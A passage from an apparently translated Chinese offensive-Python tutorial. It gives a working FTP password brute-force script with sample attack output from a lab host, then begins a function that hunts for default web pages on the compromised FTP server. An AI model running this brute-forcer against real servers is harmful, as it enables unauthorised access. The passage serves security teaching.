 现在我们能扩展前面建立的`anonLogin()`函数建立名为`brutelogin()`的函数。这个函数接受主机名和密码文件作为输入返回允许访问主机的证书。注意，函数迭代文件的每一行，用冒号分割用户名和密码，然后这个函数用用户名和密码尝试登陆 FTP 服务器。如果成功，将返回用户名和密码的元组，如果失败有异常，将继续测试下一行。如果遍历完所有的用户名和密码都没有成功，则返回包含`None`的元组。

```
# coding=UTF-8

import ftplib

def bruteLogin(hostname, passwdFile):
    pF = open(passwdFile, 'r')
    for line in pF.readlines():
        userName = line.split(':')[0]
        passWord = line.split(':')[1].strip('\r').strip('\n')
        print("[+] Trying: " + userName + "/" + passWord)
        try:
            ftp = ftplib.FTP(hostname)
            ftp.login(userName, passWord)
            print('\n[*] ' + str(hostname) + ' FTP Logon Succeeded: ' + userName + "/" + passWord)
            ftp.quit()
            return (userName, passWord)
        except Exception as e:
            pass
    print('\n[-] Could not brute force FTP credentials.')
    return (None, None)

host = '192.168.95.179'
passwdFile = 'userpass.txt'
bruteLogin(host, passwdFile) 
```

遍历用户名和密码组合，我们终于找到了用户名以及对应的密码。

```
attacker# python bruteLogin.py
[+] Trying: administrator/password
[+] Trying: admin/12345
[+] Trying: root/secret
[+] Trying: guest/guest
[*] 192.168.95.179 FTP Logon Succeeded: guest/guest 
```

## 在 FTP 服务器上寻找 WEB 页面

有了 FTP 访问权限，我们还要测试服务器是否还提供了 WEB 访问。为了测试这个，我们首先要列出 FTP 的服务目录并寻找默认的 WEB 页面。函数`returnDefault()`接受一个 FTP 连接作为输入并返回一个找到的默认页面的数组。它通过发送命令 NLST 列出目录内容。这个函数检查每个文件返回默认 WEB 页面文件名并将任何发现的默认 WEB 页面文件名添加到名为`retList`的列表中。完成迭代这些文件之后，函数将返回这个列表。

```
# coding=UTF-8

import ftplib

def returnDefault(ftp):
    try:
        dirList = ftp.nlst()
    except:
        dirList = []
        print('[-] Could not list directory contents.')
        print('[-] Skipping To Next Target.')
        return
    retList = []
    for fileName in dirList:
        fn = fileName.lower()
        if '.php' in fn or '.htm' in fn or '.asp' in fn:
            print('[+] Found default page: ' + fileName)
```